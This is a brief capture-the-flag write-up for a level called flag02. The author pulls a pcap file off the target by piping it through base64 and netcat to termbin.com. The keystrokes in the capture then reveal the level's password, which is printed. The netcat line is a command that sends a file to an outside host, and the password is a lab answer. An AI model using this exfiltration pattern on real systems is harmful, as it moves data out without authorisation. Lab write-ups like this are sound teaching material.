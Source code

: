 # flag02

We are given a pcap file with a login sequence attempt.

To retrieve the pcap file onto my machine, I used the [termbin](https://termbin.com) service:
```sh
cat pcap.pcap | base64 | nc termbin.com 9999
```

That gives us a URL which we can download and decode on our host:
```
wget https://termbin.com/<id> -O /tmp/pcap.b64
base64 -d /tmp/pcap.b64 > pcap.pcap
```

With the pcap file, we can use `wireshark` to look at the packets, and determine that it was a login sequence via a remote shell.

We can see the keyboard input of the user, typing keys, and deleting some (using the delete char `0x7F`). By following each keystroke, we end up with the password (`ft_waNDReL0L`).

We can now login as `flag02`.
